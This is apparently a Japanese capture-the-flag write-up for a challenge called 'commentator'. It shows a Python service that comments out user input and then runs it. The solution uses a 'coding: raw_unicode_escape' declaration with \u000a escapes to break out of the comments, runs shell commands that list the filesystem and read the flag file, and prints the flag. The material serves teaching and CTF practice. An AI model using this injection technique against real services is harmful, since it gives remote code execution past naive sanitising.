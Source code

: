 # commentator

## 問題文
<!-- TODO:問題文、配布ファイル追加 -->

## 難易度
**medium**  

## 作問にあたって
[コメントだけのJavaを実行できる記事](https://qiita.com/cha84rakanal/items/06477529d48c52f26e2d)のPython版です。  
JavaのテクニックはCTFでよく見ますが、Pythonはあまり見ないので出しました。  

## 解法
接続先とソースが配布される。  
接続するとPythonコードの入力を求められ、`__EOF__`で入力を終了すると`thx :)`と表示される。  
<!-- TODO:ドメイン変更 -->
```bash
$ nc localhost 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> print(1)
>>> __EOF__
thx :)
```
ソースは以下の通りであった。  
```python
#!/usr/local/bin/python

import os
import uuid

############################## Logo ##############################
print(
    f"""                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \\ \\
 / __/ _ \\| '_ ` _ \\| '_ ` _ \\ / _ \\ '_ \\| __/ _` | __/ _ \\| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \\___\\___/|_| |_| |_|_| |_| |_|\\___|_| |_|\\__\\__,_|\\__\\___/|_|    (_)  | |
                                                                      /_/
{"-" * 75}
Enter your Python code (ends with __EOF__)"""
)
############################## Logo ##############################

python = ""
while True:
    line = input(">>> ").replace("\r", "")
    if "__EOF__" in line:
        python += 'print("thx :)")'
        break
    python += f"# {line}\n"  # comment :)

pyfile = f"/tmp/{uuid.uuid4()}.py"
with open(pyfile, "w") as f:
    f.write(python)

os.system(f"python {pyfile}")
os.remove(pyfile)
```
入力の先頭に`# `を付加したコードを/tmp以下に保存して`python`で実行している。  
配布されたDockerfileからフラグを入手するには`/flag-{md5}.txt`を読めばよいとわかる。  
つまり、コメントアウトされるコードを動かしてRCEしろとのことだ。  
普通に考えると実行されるはずもない。  
`python`での実行のため、先頭行をshebangとして悪用することも難しい。  
ここで、Pythonは先頭行に`# coding: utf_8`のように記述することで、文字コードを指定できたことを思い出す。  
これをUTF-7でのXSSのように、悪用できないだろうか。  
[ドキュメント](https://docs.python.org/3/library/codecs.html)で探すと`raw_unicode_escape`があることがわかる。  
これは`\uXXXX`のように16進数で文字を記述でき、改行は`\u000a`となる。  
これを用いることでソースコード中に改行を挿入でき、コメントを脱出できる。  
以下のように行う。  
<!-- TODO:ドメイン変更 -->
```bash
$ nc localhost 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> coding: raw_unicode_escape
>>> \u000aimport os
>>> \u000aos.system("ls /")
>>> \u000aos.system("cat /flag-*.txt")
>>> __EOF__
app
bin
boot
dev
etc
flag-437541b5d9499db505f005890ed38f0e.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}thx :)
```
flagが得られた。  

## ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}
